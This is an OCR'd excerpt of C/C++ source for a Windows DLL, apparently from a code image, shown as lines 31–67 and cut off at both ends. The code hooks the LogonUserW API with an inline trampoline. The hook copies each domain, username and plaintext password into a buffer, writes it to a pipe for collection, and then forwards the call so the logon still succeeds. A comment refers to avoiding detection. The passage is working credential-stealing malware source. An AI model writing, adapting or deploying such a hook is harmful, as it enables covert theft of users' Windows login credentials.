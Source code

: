 | 31  | // Add our JMP addr for our hook |
| 32  | *(void **)(trampoline + 2) = &LogonUserWHook; |
| 33  |     |
| 34  | // Copy over our trampoline |
| 35  | memcpy(LogonUserWAddr, trampoline, sizeof(trampoline)); |
| 36  |     |
| 37  | // Restore previous page protection so Dom doesn't shout |
| 38  | VirtualProtect(LogonUserWAddr, 0x1000, oldProtect, &oldProtect); |
| 39  | }   |
| 40  |     |
| 41  | // The hook we trampoline into from the beginning of LogonUserW |
| 42  | // Will invoke LogonUserExW when complete, or return a status ourselves |
| 43  | BOOL LogonUserWHook(LPCWSTR username, LPCWSTR domain, LPCWSTR password, DWORD logonType, DWORD logonProvider, PHANDLE hToken) { |
| 44  | PSID logonSID; |
| 45  | void *profileBuffer = (void *)0; |
| 46  | DWORD profileLength; |
| 47  | QUOTA_LIMITS quota; |
| 48  | bool ret; |
| 49  | WCHAR pipeBuffer[1024]; |
| 50  | DWORD bytesWritten; |
| 51  |     |
| 52  | swprintf_s(pipeBuffer, sizeof(pipeBuffer) / 2, L"%s\\%s - %s", domain, username, password); |
| 53  | WriteFile(pipeHandle, pipeBuffer, sizeof(pipeBuffer), &bytesWritten, NULL); |
| 54  |     |
| 55  | // Forward request to LogonUserExW and return result |
| 56  | ret = LogonUserExW(username, domain, password, logonType, logonProvider, hToken, &logonSID, &profileBuffer, &profileLength, &quota); |
| 57  | return ret; |
| 58  | }   |
| 59  |     |
| 60  | BOOL APIENTRY DllMain( HMODULE hModule, |
| 61  | DWORD ul_reason_for_call, |
| 62  | LPVOID lpReserved |
| 63  | )   |
| 64  | {   |
| 65  |  switch (ul_reason_for_call) |
| 66  | {   |
| 67  |  case DLL_PROCESS_ATTACH: |